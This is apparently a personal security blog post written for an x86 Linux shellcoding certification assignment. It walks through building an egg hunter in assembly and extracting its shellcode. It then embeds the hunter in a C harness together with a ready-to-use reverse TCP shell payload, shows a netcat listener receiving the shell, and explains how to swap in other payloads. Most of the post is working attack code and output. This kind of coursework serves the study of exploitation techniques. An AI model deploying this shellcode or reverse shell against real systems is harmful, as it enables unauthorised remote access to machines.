 ```yaml
---
layout: post
title: SLAE32 Assignment3
---
```

![Alt](https://bohansec.com/assets/SHELLCODING32.png "Pentester Academy")

This blog post has been created for completing the requirments of the SecurityTube (Pentester Academy) x86 Assembly Language and Shellcoding on Linux certification:

[x86 Assembly Language and Shellcoding on Linux](https://www.pentesteracademy.com/course?id=3){:target="_blank"}

Student ID: SLAE-1562

### Objects
{% highlight js %}
Study about the egg hunter shellcode

Creat a working demo of the egg hunter

Should be configurable for different payload

{% endhighlight %}

### Prerequisite

* Install libemu
{% highlight js %}
git clone https://github.com/buffer/libemu
sudo apt-get install autoconf
sudo apt-get install libtool
autoreconf -v -i
./configure --prefix=/opt/libemu
autoreconf -v -i
sudo make install
{% endhighlight %}

* Obtain the Kali (x86) Linux 2020.3 
{% highlight js %}
https://images.kali.org/virtual-images/kali-linux-2020.3-vmware-i386.7z
{% endhighlight %}

### What is egg hunter?

Egghunter shellcode is a form of staged shellcode. Thinking in Metasploit, you often will find a staged payload where the shellcode has two stages. The first stage will send to the target, then it will connect back to the attacker's machine, download the second stage shellcode, and execute it. A similar concept is used in egghunter. The payload is marked by an eight bytes egg, such as "\x90\x50\x90\x50\x90\x50\x90\x50". The egg hunter will search for the memory location where marked by the egg, if found, means the actual shellcode located at that memory address, and the instruction will jump to that address and execute the actual shellcode. The details about egghunter can be found at [here](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf){:target="_blank"}. I also refered this [article](https://medium.com/@notsoshant/windows-exploitation-egg-hunting-117828020595){:target="_blank"} while creating my egghunter.

### Step1 - Create the egghunter in assembly(x86)

I used the code from [hick](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf){:target="_blank"}.

{% highlight js %}
global _start			

section .text
_start:

loop_inc_page:
	or cx,0xfff ;Add PAGE_SIZE-1 to ecx
loop_inc_one:
	inc ecx ;Increment our pointer by one
loop_check:
	push byte +0x43 ;syscall number for sigaction
	pop eax ;put the number 0x43 on eax
	int 0x80
	cmp al,0xf2 ;did we get EFAULT?
loop_check_8_valid: 
	jz loop_inc_page ;Yes, invalid ptr, go to the next page
is_egg:
	mov eax,0x50905090 ;the egg is \x90\x50\x90\x50
	mov edi,ecx ;set edi to the pointer we validated
	scasd ;compare dword in edi to eax
	jnz loop_inc_one ;No match? Increment the pointer by one
	scasd ;Compare the dword in edi to eax again (which is now edi + 4)
	jnz loop_inc_one ;No match? Increment the pointer by one
matched:
	jmp edi ;jump to shellcode
{% endhighlight %}

### Step2 - Compile the egghunter assembly code and extract the shellcode
With the compile script obtained from the SLAE32 course, we can compile the code. Note, NASM is installed by default on kali 2020.3. If not, you need to install the NASM first.

Compile.sh:
{% highlight js %}
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
{% endhighlight %}

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment3$ ./compile.sh egghunter
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!

kali@kali:~/Desktop/SLAE-Assignments/assignment3$ objdump -d ./egghunter -M intel

./egghunter:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       66 81 c9 ff 0f          or     cx,0xfff

08049005 <loop_inc_one>:
 8049005:       41                      inc    ecx

08049006 <loop_check>:
 8049006:       6a 43                   push   0x43
 8049008:       58                      pop    eax
 8049009:       cd 80                   int    0x80
 804900b:       3c f2                   cmp    al,0xf2

0804900d <loop_check_8_valid>:
 804900d:       74 f1                   je     8049000 <_start>

0804900f <is_egg>:
 804900f:       b8 90 50 90 50          mov    eax,0x50905090
 8049014:       89 cf                   mov    edi,ecx
 8049016:       af                      scas   eax,DWORD PTR es:[edi]
 8049017:       75 ec                   jne    8049005 <loop_inc_one>
 8049019:       af                      scas   eax,DWORD PTR es:[edi]
 804901a:       75 e9                   jne    8049005 <loop_inc_one>

0804901c <matched>:
 804901c:       ff e7                   jmp    edi

kali@kali:~/Desktop/SLAE-Assignments/assignment3$ objdump -d ./egghunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7"
{% endhighlight %}

### Step3 - Place the egghunter into the demo code written in C

I used one of the reverse TCP shellcode from my last [post](https://bohansec.com/2020/08/30/SLAE32-Assignment2/){:target="_blank"} as the second stage shellcode, flag it with the "egg". The egg is:
{% highlight js %}
"\x90\x50\x90\x50"
"\x90\x50\x90\x50"
{% endhighlight %}

{% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";


unsigned char code[] = \
"\x90\x50\x90\x50"
"\x90\x50\x90\x50"
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xc3\xb1\x03\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf7\x31\xdb\x89\xf3\x66\xb8\x6a\x01\x57\x68\xc0\xa8\xc8\x88\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x66\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{
	printf("Egghunter Length:  %d\n", strlen(egghunter));
	int (*ret)() = (int(*)())egghunter;

	ret();

}
{% endhighlight %}

### Step4 - Compile the code and run it

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment3$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
kali@kali:~/Desktop/SLAE-Assignments/assignment3$ ./shellcode 
Egghunter Length:  30
{% endhighlight %}

{% highlight js %}
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.200.136] from (UNKNOWN) [192.168.200.136] 37118
ls
compile.sh
egghunter
egghunter.nasm
egghunter.o
shellcode
shellcode.c
whoami
kali
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),131(scanner)
date
Tue Sep  1 17:28:15 EDT 2020
{% endhighlight %}

![egghunt](https://bohansec.com/assets/egghunt1.png "egghunt")

![egghunt](https://bohansec.com/assets/egghunt2.png "egghunt")

### Step5 - Configure the payload

The payload can be easily configured by replacing the code in "unsigned char code[]" variable. Note, do not forget to add the egg flag in front of the payload!

{% highlight js %}
"\x90\x50\x90\x50"
"\x90\x50\x90\x50"
{% endhighlight %}

You can find all the above code at [here](https://github.com/allan9595/SLAE-Assignments/tree/master/assignment3){:target="_blank"}.

Thanks for reading :)

